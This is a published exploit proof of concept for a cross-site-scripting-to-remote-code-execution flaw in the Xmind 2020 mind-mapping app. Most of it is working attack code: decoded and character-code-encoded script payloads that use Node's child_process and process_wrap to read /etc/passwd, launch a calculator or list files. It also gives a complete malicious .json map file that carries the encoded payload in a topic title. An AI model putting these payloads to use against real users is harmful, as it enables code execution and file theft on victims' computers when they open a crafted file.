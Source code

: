EXP
---

    # Exploit Title: Xmind 2020 - XSS to RCE
    # Exploit Author: TaurusOmar
    # Date: May 4th, 2021
    # CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H
    # Risk: High (8.8)
    # Vendor Homepage: https://www.xmind.net/
    # Version: 2020
    # Tested on: Windows, Linux, MacOs

    # Software Description:
    XMind, a full-featured mind mapping and brainstorming tool, designed to generate ideas, inspire creativity, brings efficiency both in work and life. Millions and millions of WFH people love it.
    Many great products start with a small idea. Mind map can really be useful at the beginning of a project. Use it to record every idea in the meeting, you might be surprised by the difference and achievement it makes in the long run.


    # Vulnerability Description:
    The software allows you to store payloads in the form of files or as custom header titles, once the malicious code is entered, the payload will be executed when the victim moves the mouse or clicks.
    The attacker can send a malicious file with the payload, when this file is opened, the chain will be executed successfully giving access to the
    the remote attacker to get remote execution on the computer.


    #Proof video
    https://imgur.com/a/t96Nxo5


    # Payload 2: exec(/etc/passwd)

    #Decode Payload
    <script>
    const { spawn } = require("child_process");
    const cat = spawn("cat", ["/etc/passwd"]);
    cat.stdout.on("data", data => {
        alert(`stdout: ${data}`);
    });</script>

    #Encode Payload
    <img src=x onerror=writeln(String.fromCharCode(60,115,99,114,105,112,116,62,10,99,111,110,115,116,32,123,32,115,112,97,119,110,32,125,32,61,32,114,101,113,117,105,114,101,40,34,99,104,105,108,100,95,112,114,111,99,101,115,115,34,41,59,10,99,111,110,115,116,32,99,97,116,32,61,32,115,112,97,119,110,40,34,99,97,116,34,44,32,91,34,47,101,116,99,47,112,97,115,115,119,100,34,93,41,59,10,99,97,116,46,115,116,100,111,117,116,46,111,110,40,34,100,97,116,97,34,44,32,100,97,116,97,32,61,62,32,123,10,32,32,32,32,97,108,101,114,116,40,96,115,116,100,111,117,116,58,32,36,123,100,97,116,97,125,96,41,59,10,125,41,59,60,47,115,99,114,105,112,116,62))>



    # Payload 2: exec(calc)

    #Decode Payload
    <script>
    var Process = process.binding('process_wrap').Process;
    var proc = new Process();
    proc.onexit = function(a,b) {};
    var env = process.env;
    var env_ = [];
    for (var key in env) env_.push(key+'='+env[key]);
    proc.spawn({file:'/usr/bin/gnome-calculator',cwd:null,windowsVerbatimArguments:false,detached:false,envPairs:env_,stdio:[{type:'ignore'},{type:'ignore'},{type:'ignore'}]});
    </script>

    #Encode Payload
    <img src=x onerror=writeln(String.fromCharCode(60,115,99,114,105,112,116,62,10,118,97,114,32,80,114,111,99,101,115,115,32,61,32,112,114,111,99,101,115,115,46,98,105,110,100,105,110,103,40,39,112,114,111,99,101,115,115,95,119,114,97,112,39,41,46,80,114,111,99,101,115,115,59,10,118,97,114,32,112,114,111,99,32,61,32,110,101,119,32,80,114,111,99,101,115,115,40,41,59,10,112,114,111,99,46,111,110,101,120,105,116,32,61,32,102,117,110,99,116,105,111,110,40,97,44,98,41,32,123,125,59,10,118,97,114,32,101,110,118,32,61,32,112,114,111,99,101,115,115,46,101,110,118,59,10,118,97,114,32,101,110,118,95,32,61,32,91,93,59,10,102,111,114,32,40,118,97,114,32,107,101,121,32,105,110,32,101,110,118,41,32,101,110,118,95,46,112,117,115,104,40,107,101,121,43,39,61,39,43,101,110,118,91,107,101,121,93,41,59,10,112,114,111,99,46,115,112,97,119,110,40,123,102,105,108,101,58,39,47,117,115,114,47,98,105,110,47,103,110,111,109,101,45,99,97,108,99,117,108,97,116,111,114,39,44,99,119,100,58,110,117,108,108,44,119,105,110,100,111,119,115,86,101,114,98,97,116,105,109,65,114,103,117,109,101,110,116,115,58,102,97,108,115,101,44,100,101,116,97,99,104,101,100,58,102,97,108,115,101,44,101,110,118,80,97,105,114,115,58,101,110,118,95,44,115,116,100,105,111,58,91,123,116,121,112,101,58,39,105,103,110,111,114,101,39,125,44,123,116,121,112,101,58,39,105,103,110,111,114,101,39,125,44,123,116,121,112,101,58,39,105,103,110,111,114,101,39,125,93,125,41,59,10,60,47,115,99,114,105,112,116,62))>


    # File Malicious.json Payload

    [{"id":"5609f1388fd8c10e8f8798f104","class":"sheet","title":"Map 1","rootTopic":{"id":"b9aa22deba98b3b20c7ac8aca2","class":"topic","title":"\">'><img src=x onerror=writeln(String.fromCharCode(60,115,99,114,105,112,116,62,10,108,101,116,32,123,32,115,112,97,119,110,32,125,32,61,32,114,101,113,117,105,114,101,40,34,99,104,105,108,100,95,112,114,111,99,101,115,115,34,41,59,10,108,101,116,32,108,115,32,61,32,115,112,97,119,110,40,34,108,115,34,44,32,91,34,45,108,97,34,93,41,59,10,108,115,46,115,116,100,111,117,116,46,111,110,40,34,100,97,116,97,34,44,32,100,97,116,97,32,61,62,32,123,10,32,32,32,32,97,108,101,114,116,40,96,115,116,100,111,117,116,58,32,36,123,100,97,116,97,125,96,41,59,125,41,59,60,47,115,99,114,105,112,116,62,10,10))>","structureClass":"org.xmind.ui.map.unbalanced","children":{"attached":[{"id":"b58888b5ceebbf0e68dada0656","title":"Main Topic 1","titleUnedited":true},{"id":"193b56735e689ae86a01d91513","title":"Main Topic 2","titleUnedited":true},{"id":"67ddbcb1-85c9-4478-a0aa-580e9fdcd971","title":"Main Topic 3","titleUnedited":true}]},"extensions":[{"content":[{"content":"3","name":"right-number"}],"provider":"org.xmind.ui.map.unbalanced"}]},"theme":{"id":"c669ec6d4d48895260d968fc99","importantTopic":{"type":"topic","properties":{"fo:font-weight":"bold","fo:color":"#2b2b2b","svg:fill":"#FFDC34"}},"minorTopic":{"type":"topic","properties":{"fo:font-weight":"bold","fo:color":"#2b2b2b","svg:fill":"#AB9738"}},"expiredTopic":{"type":"topic","properties":{"fo:font-style":"italic","fo:text-decoration":" line-through"}},"centralTopic":{"type":"topic","styleId":"9a13b7d6-cd05-44c3-b903-6c3a50edc46e","properties":{"shape-class":"org.xmind.topicShape.roundedRect","svg:fill":"#1B1B1D","fo:font-family":"Montserrat","fo:font-weight":"600","fo:font-style":"normal","line-width":"3","line-color":"#292929","border-line-width":"0"}},"map":{"type":"map","styleId":"f0e1f9bb-a8f5-486a-a70a-b72b2b6560d3","properties":{"svg:fill":"#000000"}},"subTopic":{"type":"topic","styleId":"9ea90eed-1da0-4c93-bac4-2085e16a0faf","properties":{"fo:font-family":"Montserrat","svg:fill":"#636366","shape-class":"org.xmind.topicShape.roundedRect","fo:font-size":"14pt","fo:text-align":"left","border-line-width":"0","fo:color":"#FFFFFF"}},"mainTopic":{"type":"topic","styleId":"42065f7f-018c-4eb9-9dc7-3a7bbf464915","properties":{"fo:font-family":"Montserrat","svg:fill":"#3A3A3C","border-line-width":"0","fo:font-weight":"600","fo:font-style":"normal","fo:font-size":"18pt","fo:text-align":"left","fo:color":"#FFFFFF","line-width":"2"}},"summaryTopic":{"type":"topic","styleId":"c8f4c32b-2607-4fae-bb85-b8736039e941","properties":{"fo:font-family":"Montserrat","svg:fill":"#8E8E93","fo:font-weight":"500","fo:font-style":"normal","line-color":"#292929","border-line-width":"0"}},"calloutTopic":{"type":"topic","styleId":"6f8bd667-fb82-4d0d-899f-05dc76c5945e","properties":{"fo:font-family":"Montserrat","svg:fill":"#8E8E93","fo:font-size":"14pt","fo:font-weight":"500","fo:font-style":"normal"}},"floatingTopic":{"type":"topic","styleId":"c9509bc2-2641-4f5f-8b38-e62c14c907f9","properties":{"fo:font-family":"Montserrat","border-line-width":"0","fo:font-weight":"500","fo:font-style":"normal","line-width":"2","line-color":"#292929"}},"boundary":{"type":"boundary","styleId":"0d7cf959-3b54-4849-88e1-cc0fc8c60341","properties":{"svg:fill":"#545455","shape-class":"org.xmind.boundaryShape.roundedRect","line-color":"#5D5D60","fo:font-weight":"500","fo:font-style":"normal","fo:color":"#FFFFFF","fo:font-size":"13pt","fo:font-family":"Montserrat"}},"relationship":{"type":"relationship","styleId":"57da2f8e-3f8d-47ee-a802-93023fc802c1","properties":{"line-color":"#8E8E93","line-width":"2","fo:font-weight":"500","fo:font-style":"normal","fo:font-family":"Montserrat","fo:color":"#FFFFFF","fo:font-size":"13pt"}},"summary":{"type":"summary","styleId":"ddeb9d94-1678-4129-8796-42b036e08dd2","properties":{"line-color":"#5A5A5A"}}},"topicPositioning":"fixed"}]
